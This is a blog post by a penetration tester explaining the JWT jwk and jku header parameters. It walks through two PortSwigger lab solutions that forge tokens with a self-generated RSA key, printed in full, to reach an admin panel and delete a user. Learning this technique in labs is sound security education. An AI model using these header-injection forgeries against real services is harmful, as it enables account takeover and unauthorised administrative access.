# :globe_with_meridians: JWT [JSON WEB TOKENS] [EXPLANATION & EXPLOITATION] (0x02)

---

# JWT [JSON WEB TOKENS] [EXPLANATION & EXPLOITATION] (0x02)

Hi! My name is Hashar Mujahid. I am a security researcher and a penetration tester. This blog is part 2 of the comprehensive exploitation of JSON web tokens. I recommend you to read the first part of this series as well.




*BANNER*

Today we will learn a few more techniques to exploit the JWTs.

## JWT header parameter injections.

Jwt Header can also include some parameters like jku, jwk, and kid This mostly happens when RSA Algorithm is used But you will also see it in some cases where jwk and jku are used with hmac.
Let’s first learn what jwk is.

>

JWK (JSON WEB KEY)

JWK Is used to store a cryptographic keys (Public key or Private Key) in a JSON format. Let’s see an example of JWK.

```
{
"kty": "oct",
"kid": "my-hmac-key",
"alg": "HS256",
"k": "GawgguFyGrWKav7AX4VKUg"
}
```

In this case, we can see the k is the secret key value.

The Jwk can be stored in a variety of ways.
1. Key Management Systems AWS KMS, GOOGLE CLOUD KMS etc.
2. File Systems on the Server
3. Database Like MySQL or PostgreSQL.
4. Distributed ledger

But make sure the JWK are not publicly assessible.

>

JKU (JSON WEB KEY SET URL):

When a jwk is stored on the server or anywhere explain above we need its address to retireve it here comes the `JKU` which is stored in the header of JWT . It contains a URL where the JKW is Stored.
The JKU parameter points to a well-known location where the set of JWKs is stored, typically in the form of a JSON file or API endpoint. The format of the JWK set follows the JSON Web Key (JWK) specification and contains a set of keys that can be used for signature verification, encryption, or decryption.

```
{
"alg": "RS256",
"jku": "https://example.com/keys.json"
}
```

Here we can see the jku pointing to the location where the jwk is stored.
The url will return the jwk like this.

```
{
"keys": [
{
"kty": "RSA",
"use": "sig",
"kid": "my-key",
"n": "pmpw7wy1R…",
"e": "AQAB"
}
]
}
```

Which can be used to further validate the JWT.
Now i believe you will have the understanding of these headers, So let’s disscuss the exploitation part.
As we saw the JKU is an url, if we create our own jWK and stored it on a server we could change the value of the JKU to point to our keys the server will then validate the JWT with our JWK.

## SELF SIGNED JWT WITH JKU HEADER INJECTION:

For demonstration purposes, we can use the awesome Portswiggers Labs.

OBJECTIVE:
This lab uses a JWT-based mechanism for handling sessions. The server supports the `jku` parameter in the [JWT]([https://portswigger.net/web-security/jwt](https://portswigger.net/web-security/jwt)) header. However, it fails to check whether the provided URL belongs to a trusted domain before fetching the key.

To solve the lab, forge a JWT that gives you access to the admin panel at `/admin`, then delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

SOLUTION:

Let’s Log in to the testing enviorment with the creds provided. After loging in we wil find the JWT TOKEN in our cookies.
Let’s copy the token, can see it in JWT.io.




We already know that server supports the jku header so let’s use “As we saw the JKU is an url, if we create our own jWK and stored it on a server we could change the value of the JKU to point to our keys the server will then validate the JWT with our JWK.” this attack method.

## Get Hashar Mujahid’s stories in your inbox

Join Medium for free to get updates from this writer.

Remember me for faster sign in

To generate our own JWK, we can use JWT editor extension from the burp store.




After generating the JWK. Store it on the exploit server.

```

{
"keys":[
{
"p": "2Ta0RMnLZ2HgO4YYAxDTgeZPQ8xgB1ZeJSILsJyV2epDtFVYedW54YaTStC_o-MFCMS90mkpvJBJp33ab8JJ_u62HtlvxxhFpY6Uox4Yjl9B2tp4ynBzeFNqRS7vaSBboGFsZgzVJB_2z0tY0SnjUNia9gTkeEv98_L8lu1RALU",
"kty": "RSA",
"q": "2MEQqQut-uB2ZtMEurfXchQzQlm5HyS-H5JHKVkBfETKBUrIJUP6QoQYJTozgC7h07JvAqD2UsVO2ji0-L-yXAxGmMVqdjSszqn6ta1-UW29TgBFhLhtRdAnNvLMeQF2KTJfpM2XaygR3wtl6pVfmsOJ9v3t9U4yY8EiQEAuTP0",
"d": "HtVzqsbVqgxs1lScSeY-DY9G1rlI_w8cbJsm3fvftJhnpLcW4_s5NQKV1atUPFbE7a3gPHgp7Sr1vIQZ_cdIrWvchlSBXd12Rs3CKpg-G4-QDlDrW79Y4RV-Rlt1bHRWUCbFTzBP0r23fKRXFcadOn2X9rgUtDaKNuILnUh0P2uL8ZvqG_oPzBWnc1rRidWbRmbuO_I_4nQDBD-0AzVyVw1nTrgXf2M5B_6e-BsNHf5Fp0gR5RDRBMJpl4sm1us1qDkxqz1syEKvk5Ynk8QyZD-uxhEg21_F77XY0ubcwj3tJpkZoAyHrydJoHXG4Fp6jhYaTa-p6auXO6o6AfpnqQ",
"e": "AQAB",
"kid": "2bb59b1b-968a-4cbd-b6dc-a84afb350a41",
"qi": "Jmbm9bdLgCVOj3LXVsZWDrlY4ImUhQRnaqtUWRT4-kK6wUcSsq8aQvHtiQwISJv-uX0hpDCxc5ugqocqomfv_fyXXu-7SdjI0dFlhctJBTNpOKHfvOf_E1DBFKqWQYlD1znUzj-7T5jENzYfVHxwHCvyOreZvFV-TGXOsQ3ULLk",
"dp": "Jyp2_MRKGd0LGpCGOd9J0-1cM4RheFE5boaiBvllB8L27EhLSMSh3KlwW5giRgHEQZ2AALWXofl-XmYSAf7NattOGWfpgMO-oyh_Yp4lnV5NuJGWICKAn5yi19CruI_uFZAbhJchw37D-QLEBAsCguxbnKqrK4nAQ8F3jBtEdNU",
"dq": "CHGU7ZDn6SL_WcgUohVxTh9dU9Nc88qhoWc4YHL4LNgdKpGcNF9ui1LMAf8_bFnnMDD-RBLzJYxMIxIccqg9EXrk8SSXnh01MiPLAXLNvexReI1oJ-BrWVHfhTN2JayZ5sbwlOHxaRo5f__Yq4fAHq5JXJbNw0WVju9CH1CgvR0",
"n": "t-n4esxqCC4bQR68A14Rxc5nwFl2YS74hqjWSTM3T8Rz6pTxT76CpOI1VnqTLF-aVS1lgtKcWGr247MIAB927IXUUYZNGw7bRmY8eDvBaewR-_IDTPxAdKT9cfwydswMi934eTGRv9i5DPZEJyK6QZs91Ou6V5xWAdjAn0ZjOnifb9yYLvhq3yEX6oRonf-o651kJAkvuUgszjPYpBD4pi0s_o6HZJqmSg8Hfi0sOcabW25Ukiah2mlGlyKfHG_0xuL-EGo9npM58b9V25Q4x3cC3vVRHestJcnPvyvFFJcAQtmMqw92JVQ_Mh3QSdR93E1h3_otyyb2YIuX9clu4Q"



}
]
}
```

Now Just edit the JWT we recieved after loging in to have the jku parameter pointing to the url above.




Now our Jwt is signed with the JWK we provided and server will also use this JWK for validating.




We can also see the request made by the server to access the jwk.




Now just delete the Cralos by accessing the admin pannel.




We can see we were able to trick the server by using our own JWK.

Let’s Disscuss another technique where we just embeed our own jwk in the jwt itself.

## SELF SIGNED JWT WITH JWK PARAMETER.

We can directly embeed the jwk in our jwt by using jwk parameter.
For example:

```
{
"alg": "RS256",
"typ": "JWT",
"jwk": {
"kty": "RSA",
"n": "AM38fObbQv5mk5zsi8kAe7h5d5LRDKvZnwWkXb...",
"e": "AQAB",
"alg": "RS256"
}
}
```

The “kty” parameter specifies the key type as “RSA”, and the “n” and “e” parameters contain the public components of the RSA key. The “alg” parameter specifies the algorithm used to sign the JWT, which must match the algorithm specified in the “alg” header parameter.

OBJECTIVE
This lab uses a JWT-based mechanism for handling sessions. The server supports the `jwk` parameter in the [JWT]([https://portswigger.net/web-security/jwt](https://portswigger.net/web-security/jwt)) header. This is sometimes used to embed the correct verification key directly in the token. However, it fails to check whether the provided key came from a trusted source.

To solve the lab, modify and sign a JWT that gives you access to the admin panel at `/admin`, then delete the user `carlos`.

You can log in to your own account using the following credentials: `wiener:peter`

SOLUTION:

Let’s Log in and see what are the contents of the jwt.




Now just add the jwk header in the Jwt using jwt editor like this.

```
{
"kid": "fc04fac4-4dce-4a49-95b0-18b256853f24",
"alg": "RS256",
"jwk": {
"p": "2Ta0RMnLZ2HgO4YYAxDTgeZPQ8xgB1ZeJSILsJyV2epDtFVYedW54YaTStC_o-MFCMS90mkpvJBJp33ab8JJ_u62HtlvxxhFpY6Uox4Yjl9B2tp4ynBzeFNqRS7vaSBboGFsZgzVJB_2z0tY0SnjUNia9gTkeEv98_L8lu1RALU",
"kty": "RSA",
"q": "2MEQqQut-uB2ZtMEurfXchQzQlm5HyS-H5JHKVkBfETKBUrIJUP6QoQYJTozgC7h07JvAqD2UsVO2ji0-L-yXAxGmMVqdjSszqn6ta1-UW29TgBFhLhtRdAnNvLMeQF2KTJfpM2XaygR3wtl6pVfmsOJ9v3t9U4yY8EiQEAuTP0",
"d": "HtVzqsbVqgxs1lScSeY-DY9G1rlI_w8cbJsm3fvftJhnpLcW4_s5NQKV1atUPFbE7a3gPHgp7Sr1vIQZ_cdIrWvchlSBXd12Rs3CKpg-G4-QDlDrW79Y4RV-Rlt1bHRWUCbFTzBP0r23fKRXFcadOn2X9rgUtDaKNuILnUh0P2uL8ZvqG_oPzBWnc1rRidWbRmbuO_I_4nQDBD-0AzVyVw1nTrgXf2M5B_6e-BsNHf5Fp0gR5RDRBMJpl4sm1us1qDkxqz1syEKvk5Ynk8QyZD-uxhEg21_F77XY0ubcwj3tJpkZoAyHrydJoHXG4Fp6jhYaTa-p6auXO6o6AfpnqQ",
"e": "AQAB",
"kid": "2bb59b1b-968a-4cbd-b6dc-a84afb350a41",
"qi": "Jmbm9bdLgCVOj3LXVsZWDrlY4ImUhQRnaqtUWRT4-kK6wUcSsq8aQvHtiQwISJv-uX0hpDCxc5ugqocqomfv_fyXXu-7SdjI0dFlhctJBTNpOKHfvOf_E1DBFKqWQYlD1znUzj-7T5jENzYfVHxwHCvyOreZvFV-TGXOsQ3ULLk",
"dp": "Jyp2_MRKGd0LGpCGOd9J0-1cM4RheFE5boaiBvllB8L27EhLSMSh3KlwW5giRgHEQZ2AALWXofl-XmYSAf7NattOGWfpgMO-oyh_Yp4lnV5NuJGWICKAn5yi19CruI_uFZAbhJchw37D-QLEBAsCguxbnKqrK4nAQ8F3jBtEdNU",
"dq": "CHGU7ZDn6SL_WcgUohVxTh9dU9Nc88qhoWc4YHL4LNgdKpGcNF9ui1LMAf8_bFnnMDD-RBLzJYxMIxIccqg9EXrk8SSXnh01MiPLAXLNvexReI1oJ-BrWVHfhTN2JayZ5sbwlOHxaRo5f__Yq4fAHq5JXJbNw0WVju9CH1CgvR0",
"n": "t-n4esxqCC4bQR68A14Rxc5nwFl2YS74hqjWSTM3T8Rz6pTxT76CpOI1VnqTLF-aVS1lgtKcWGr247MIAB927IXUUYZNGw7bRmY8eDvBaewR-_IDTPxAdKT9cfwydswMi934eTGRv9i5DPZEJyK6QZs91Ou6V5xWAdjAn0ZjOnifb9yYLvhq3yEX6oRonf-o651kJAkvuUgszjPYpBD4pi0s_o6HZJqmSg8Hfi0sOcabW25Ukiah2mlGlyKfHG_0xuL-EGo9npM58b9V25Q4x3cC3vVRHestJcnPvyvFFJcAQtmMqw92JVQ_Mh3QSdR93E1h3_otyyb2YIuX9clu4Q"



}
}
```

After signing the token send the request you will see you are still signed in that means our token is validated.




So let’s become a administrator and delete the carlos by repeaing the same steps.




Now we have a detailed understanding of how these attacks works.
This blog is getting long so we will discuss some more advance techniques of exploiting the JWT with algorithm confussion attacks.
Till Then HAPPY HACKING ! ❤.

---
